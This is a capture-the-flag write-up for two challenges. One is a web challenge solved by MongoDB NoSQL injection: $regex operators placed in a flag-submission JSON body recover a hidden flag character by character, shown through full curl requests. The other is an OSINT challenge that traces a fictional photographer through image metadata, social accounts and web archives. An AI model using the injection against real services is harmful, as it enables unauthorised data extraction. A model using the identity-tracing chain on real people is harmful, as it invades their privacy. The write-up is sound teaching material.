## Web
### CTFC
>I'm excited to share my minimal CTF platform with you all, take a look! btw it's ImPAWSIBLE to solve all challenges 😺
>
>Note: flag format is INTIGRITI{.*}
>
> Author: Jopraveen
----------------
We are provided with source code for the challenge, which details the interaction we can have. The important things to note are where the flag might be located with the Dockerfile, and how we can interact with the backend of the server. from the Dockerfile, we see the flag is stored as an environment:
```
$ cat Dockerfile
<...SNIP...>
# Setup flask app & create flag  
EXPOSE 80  
ENV FLASK_APP=/app/IntCTFC/app.py  
ENV FLASK_ENV=production  
ENV FLASK_RUN_PORT=80  
ENV FLASK_RUN_HOST=0.0.0.0  
ENV CHALL_FLAG="1337UP{fl4G_h3RE}"  
ENV SECRET_KEY="fake_secret_key"
```
Secret keys are usually used for cookie signing, so this is not something interesting just yet. In the main `app.py`, we can see how the flag is used:
```python
def createChalls():  
       db.challs.insert_one({"_id": "28c8edde3d61a0411511d3b1866f0636","challenge_name": "C  
rack It","category": "hash","challenge_description": "My friend sent me this random string `  
cc4d73605e19217bf2269a08d22d8ae2` can you identify what it is? , flag format: CTFC{<password  
>}","challenge_flag": "CTFC{cryptocat}","points": "500","released": "True"})  
       db.challs.insert_one({"_id": "665f644e43731ff9db3d341da5c827e1","challenge_name": "M  
eoW sixty IV","category": "crypto","challenge_description": "hello everyoneeeeeeeee Q1RGQ3tu  
MHdfZzBfNF90aDNfcjM0TF9mbDRHfQ==, oops sorry my cat ran into my keyboard, and typed these ra  
ndom characters","challenge_flag": "CTFC{n0w_g0_4_th3_r34L_fl4G}","points": "1000","released  
": "True"})  
       db.challs.insert_one({"_id": "38026ed22fc1a91d92b5d2ef93540f20","challenge_name": "I  
mPAWSIBLE","category": "web","challenge_description": "well, this challenge is not fully cre  
ated yet, but we have the flag for it","challenge_flag": os.environ['CHALL_FLAG'],"points":  
"1500","released": "False"})
```
The third challenge is using the flag as an answer key, from the looks of it. In lines prior to this, we can note that the database service this challenge is using is MongoDB, a NoSQL type of database:
```
# db settings  
client = pymongo.MongoClient('localhost',27017)  
db = client.ctfdb
```

when we enter the page, we are prompted to create an account. There are no limitations, so creating an account is very simple. When we enter, we see two challenges associated to the first 2 entries in the database:



The third challenge is not there, but notice the "release" is set to "False" for the third one. When trying to answer questions for the one listed, we see the answers match what we expect from the database:



If we analyze our request using Burp proxy or perhaps just with Firefox's Network tool, we can see the request data being sent:



In raw data:
```json
{"_id":"_id:1","challenge_flag":"CTFC{cryptocat}"}
```

If we modify this request to `"_id:3"`, then perhaps we can send a request to the 3rd challenge. However, the answer will be the flag, which we do not know. Since this is NoSQL, we might be able to abuse [NoSQL Injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection#extract-data-information) combined with regex queries to leak the flag. The concept goes as follows: using regex wildcards, we can generate a passing result despite knowing none of the characters. We can sequentially guess a single character 1 request at a time, and whenever we land on a correct one, the check will once again pass. For this, I copied my network request directly to `curl` although utilizing a tool such as Brupsuite will have a cleaner look to manage:


The unmodified curl request looks like this:
```
curl 'https://ctfc.ctf.intigriti.io/submit_flag' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://ctfc.ctf.intigriti.io/' -H 'Content-Type: application/json' -H 'Origin: https://ctfc.ctf.intigriti.io' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: session=eyJ1c2VyIjp7Il9pZCI6ImI5MTk2YjgzYjZlZDQ1ZTZiOGVjMTM3YTcxNTRmNmViIiwidXNlcm5hbWUiOiJhc2RmIn19.ZVeEiA.I5nW0lG2m4QufY4UuiKTpLmNqBM' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"_id":"_id:1","challenge_flag":"CTFC{cryptocat}"}'
```
To modify, we insert new JSON into the key for "correct_flag", so that regex may be applied:
```json
"challenge_flag":{"$regex":".*"}
```
We can confirm this works by checking regex with the flag header and brackets that we already know:
```
curl 'https://ctfc.ctf.intigriti.io/submit_flag' -X POST -H 'Us  
er-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0' -H 'Accept  
: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Refe  
rer: https://ctfc.ctf.intigriti.io/' -H 'Content-Type: application/json' -H 'Origin: https:/  
/ctfc.ctf.intigriti.io' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: session=eyJ1c2Vy  
Ijp7Il9pZCI6ImI5MTk2YjgzYjZlZDQ1ZTZiOGVjMTM3YTcxNTRmNmViIiwidXNlcm5hbWUiOiJhc2RmIn19.ZVeEiA.  
I5nW0lG2m4QufY4UuiKTpLmNqBM' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fe  
tch-Site: same-origin' --data-raw '{"_id":"_id:3","challenge_flag":{"$regex":"INTIGRITI{.*}"  
}}'  
correct flag!
```
The response is correct flag! At this point it is probably better to just write a script to guess all combinations, or we can be mildly clever and do it manually with the slight help of extra regex. We can start by seeing if the first bracket char is lowercase by guessing `[a-z]`, or all lowercase chars between a and z:
```
curl 
<...SNIP...>
--data-raw '{"_id":"_id:3","challenge_flag":{"$regex":"INTIGRITI{[a-z].*}"}}'  
correct flag!
```
We can guess half the alphabet, to narrow down which letter it might be:
```
'{"_id":"_id:3","challenge_flag":{"$regex":"INTIGRITI{[a-m].*}"}}'  
correct flag!
```
After a couple more guesses, we narrowed down the range to 4 characters, a much easier guess than 26+:
```
'{"_id":"_id:3","challenge_flag":{"$regex":"INTIGRITI{[g-k  
].*}"}}'
correct flag!
```
The first letter is `h`, so in only ~6 guesses we managed to guess a letter. Pretty good, considering there are 26 possibilities in lowercase alone! Now we can repeat the process, keeping the 1st char as h and guessing the 2nd one:
```
'{"_id":"_id:3","challenge_flag":{"$regex":"INTIGRITI{h[a-  
z].*}"}}'  
wrong flag!
```
And so on.. Eventually, we can leak the entire flag:
```
'{"_id":"_id:3","challenge_flag":{"$regex":"INTIGRITI{h0w_1s_7h4t_PAWSIBLE}"}}'  
correct flag!
```
Note that in this case the wildcard is gone, as a final check to see if the flag is complete. We don't really need the `$regex` json either.
`INTIGRITI{h0w_1s_7h4t_PAWSIBLE}`

## OSINT
### Photographs
>Can you help us track down this photographer? 📸
>
> Author: therealbrenu
---------
The first photo is a simple lizard on a fence:


The very first thing to check is image metadata via `exiftool`:
```
$ exiftool picture.jpg                                                  
ExifTool Version Number         : 12.65    
<...SNIP...>
Modify Date                     : 2023:09:25 23:42:32  
Artist                          : fl0pfl0p5  
<...SNIP...>
```

We can see the artist is named `fl0pfl0p5`. A quick google search for the name reveals an `about.me` page, and a reddit account. Delving further into reddit in particular, we can see another reddit page of interest:



In the [2nd post](https://www.reddit.com/r/DailyCodingDose/comments/15l73xa/comment/k1d8b6v/), we see a different named user created a github page under the name `fl0pfl0p5`.



The github page itself is not useful, but does have a cute dead end. A hello world script has a commit "removed hardcoded secret":



The important information from the reddit post is we now have a different username connected, `m4r64r1n3`.  We can find that this person has a [twitter account](https://nitter.net/m4r64r1n3) as well, and if you're paying careful attention you might also note that the account was created in September, the same time where all previous activity has been happening.



We can see that this person [posted a different picture](https://nitter.net/m4r64r1n3/status/1706488480753242352#m) on the twitter account. Analyzing with `exiftool` does not give us more information, but when we image search via google, we can find it is associated with a new blog page, and a 3rd username. Note that in order to see this result, I had to select "Find Image Source" on the image results page.



When we visit the [blog page](https://v1ck1pictures.blogspot.com/2023/09/just-little-bird.html), we see an interesting anonymous comment: "I don't think it's a good idea to share your location online." Wise words indeed. 



There is no location disclosure here anymore though, but perhaps it has been saved in the web archives. When we check the [wayback machine](https://archive.org/web/), we can see an archive conveniently placed on October 2, 1 day before this comment about sharing a location.



When we [view the archive](https://web.archive.org/web/20231002010103/https://v1ck1pictures.blogspot.com/2023/09/just-little-bird.html), we see the flag!



`INTIGRITI{D3F1N173LY_N07_60TH4M_C17Y}`
